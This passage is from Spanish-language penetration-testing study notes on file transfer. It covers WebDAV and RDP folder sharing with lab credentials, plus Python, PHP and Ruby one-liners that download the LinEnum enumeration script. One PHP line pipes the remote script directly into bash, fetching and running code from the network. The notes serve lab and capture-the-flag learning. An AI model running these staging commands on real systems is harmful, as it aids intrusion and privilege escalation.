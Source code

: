 Ejecutar wsgidav especificcando el archivo de configuración
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth-conf=/etc/wsgidav.password
```
##### Puerto 443
Creamos certificado autofirmado: 
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048  -keyout server.key -out server.crt -subj "/C=US/ST=State/L=City/O=Organization/CN=yourdomain.com"
```
Compartimos el contenido
```bash
sudo wsgidav --host=0.0.0.0 --port=443 --root=/tmp --ssl-cert=server.crt --ssl-key=server.key
```
#### RDP
##### Montar carpeta con `redesktop`
```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
##### Montar carpeta con xfreerdp
```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
## Con código

### Descarga
#### Python 2
```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### Python 3
```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### PHP - `File_get_contents()`
```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
#### PHP - `Fopen()`
```bash
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
#### PHP - `Fileless`
```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
#### Ruby
```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
#### Perl
```bash
```